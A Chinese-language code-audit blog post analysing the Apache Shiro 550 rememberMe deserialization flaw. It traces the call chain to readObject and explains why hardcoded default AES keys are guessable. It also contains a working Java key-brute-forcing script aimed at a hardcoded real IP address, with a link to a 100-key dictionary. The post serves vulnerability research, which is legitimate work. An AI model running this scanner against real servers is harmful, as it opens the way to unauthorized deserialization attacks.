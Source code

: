 ```yaml
---
title: "Shiro550反序列化分析"
date: 2021-03-14T22:07:36+08:00
draft: false
categories: ["code_audit"]
---
```


## 攻击链分析
debug得到整个攻击链的主要路径如下图所示：

![Shiro550攻击链][p1]

代码分析主要从 `AbstracRememberMeManager#getRememberedIdentity入` 手，如下所示：

![入口1][p2]

跟进标红函数，如下所示：

![入口2][p3]

继续跟进 `getRememberedPrincipals()` ，分析如下所示：

![入口3][p4]

此处假设AES解密成功，继续跟进 `deserialize()` ,如下所示：

![入口4][p5]

继续跟进标红函数，如下所示，看打了久违的 `readObject` ，于是造成反序列化漏洞：

![入口5][p6]

## 一些说明
可以看到，shiro反序列化攻击的一个关键点就是 **需要猜解shiro rememberMe配置的AES密钥** ，既然是密钥，为啥会被猜解到呢？主要shiro官方的AbstractRememberMeManager存在默认的硬编码AES密钥，此外，开发者们无脑复制网上的各种示例代码，而示例代码中配置了硬编码的shiro rememberMe密钥，导致攻击者可以搜集网上的各种示例代码中的shiro密钥，从而对靶机进行一个密钥爆破；

攻击过程如下所示：

![shiro攻击过程][p7]

那么我们收集好了shiro密钥字典后，如果进行爆破呢？又如何判断爆破成功呢？这里主要存在两种思路：

- 生成执行请求DNSLog地址的反序列化对象，如果爆破成功，则DNSLog有回显；
- 利用Xray提供的思路：生成一个空的SimplePrincipal反序列化对象，如果爆破成功，则返回包中就不会返回 `rememberMe=deleteMe` ；

一个检测示例代码如下所示（采用Xray方式，代码依赖于Hutool）：

    @Test
    public void testTian() throws Exception{
        // 读取100key
        List<String> keys = FileUtil.readLines(new File("c:/Users/18148/Desktop/shiro100key.txt"), "UTF-8");
        AesCipherService aes = new AesCipherService();
        for (int index=0;index<keys.size();index++) {
            String shiroKey=keys.get(index);
            System.out.println("[*] index："+(index+1)+"，当前正在检测的key为："+shiroKey);
            SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
            String filePath = "c:/Users/18148/Desktop/shiroPayload/payload";
            ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream(filePath));
            obj.writeObject(simplePrincipalCollection);
            obj.flush();
            obj.close();
            try{
                byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath(filePath));
                // shiro的密钥
                byte[] key = cn.hutool.core.codec.Base64.decode(CodecSupport.toBytes(shiroKey));
                ByteSource ciphertext = aes.encrypt(payloads, key);
                // 得到最终的rememberMe payload
                String payload=ciphertext.toString();
                // 攻击地址
                String url="http://101.201.239.35/loginIndex";
                Map<String, List<String>> headers = new HashMap<>();
                ArrayList<String> cookieVal = new ArrayList<>();
                cookieVal.add("rememberMe="+payload);
                headers.put("Cookie",cookieVal);
                headers.put("Accept", Arrays.asList("application/json","text/plain","*/*"));
                HttpRequest request = HttpUtil.createGet(url).header(headers).timeout(10000).disableCache();
                HttpResponse response = request.execute();
                String header = response.header("Set-Cookie");
                if(!header.contains("rememberMe=deleteMe")){
                    System.out.println("[+] 找到key了，key为："+shiroKey);
                    break;
                }else{
                    // 为了避免误报、漏报，显示下header，方便人工判断
                    System.out.println("[!] 当前的header为："+header);
                    System.out.println("===================================================================分割线=======================================================================");
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }
    }

100_shiro_keys下载链接：[100_shiro_keys][l1]



[p1]:./../media/2021-03-14-1.png
[p2]:./../media/2021-03-14-2.png
[p3]:./../media/2021-03-14-3.png
[p4]:./../media/2021-03-14-4.png
[p5]:./../media/2021-03-14-5.png
[p6]:./../media/2021-03-14-6.png
[p7]:./../media/2021-03-14-7.png



[l1]:https://p1n93r.github.io/files/shiro100key.txt